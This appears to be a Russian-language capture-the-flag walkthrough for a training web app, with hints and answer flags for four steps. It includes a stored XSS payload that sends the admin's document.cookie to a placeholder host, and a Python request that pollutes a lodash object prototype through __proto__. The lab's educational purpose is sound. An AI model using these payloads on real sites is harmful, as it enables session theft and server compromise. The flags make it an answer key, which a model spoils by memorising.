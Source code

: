 # POC

## Шаг 1
Зарегистрируйтесь на сайте используя любой удобный логин и пароль. Изучите веб приложение, похоже в нём есть уязвимость **Sourcemap**. Какой компонент отвечает за отображения комментария к статье? 

Подсказки:
- Source Map — это исходный код приложения, который добавляется к сборке, для удобной отладки веб приложения во время разработки, который по ошибке разработчика может попасть в итоговую версию приложения
- Исходный код виден в консоли разрабочика во вкладке "Отладка", зачастую папка с исходным кодом называется static

(Ответ *CommentItem* или *CommentItem.jsx*)

## Шаг 2

Правильно. Кажется кому то лень было заморачиваться с качественным отображением комментария и разработчик засунул комментарий прям в **dangerouslysetinnerhtml**! Попробуйте украсть cookie администратора и получить доступ к его учётной записи! В разделе настроек профиля найдите флаг!

Подсказки
- уязвимость XSS чаще всего происходит из за некачественной обработки пользовательского ввода, попробуйте поэкспериментировать с полем ввода комментария к статье!
- (?) <img src=x onerror="fetch('http://host:port?c=' + document.cookie)"/>

(Ответ *flag_@dm1n_account*)

## Шаг 3

Изучите систему создания новой статьи. Как называется функция, которая отправляет данные о новой статье серверу? 

Подсказки
- Для выполнения этого задания стоит обратиться к исходному коду приложения и найти в нём файл, отвечающий за отображение страницы создания статьи
- Функция расположена внутри компонента ArticleCreator.jsx

(Ответ *addNewArticle*)

## Шаг 4

Кажется на сервере дата обрабатывается с помощью старой версии библиотеки lodash, в которой присутствует уязвимость Prototype pollution. Попробуйте подобрать такую дату, которая изменит прототип объекта, добавив в него поле **flag** со значением **true** и получите флаг!

Подсказка
- для записи даты создания статьи используется функция merge(), которая обрабатывает строку date из запроса и добавляет новые поля даты в запрос к базе данных
- для изменения прототипа обычно используется свойство **__proto__**

(Ответ *fl@g_Pro0toTyp3_1s_p0llu1ed*)

```sh
r = requests.post('http://host/api/create', json={
	'userid':1,
	'date':'{"__proto__":{"flag":true}}'
})
```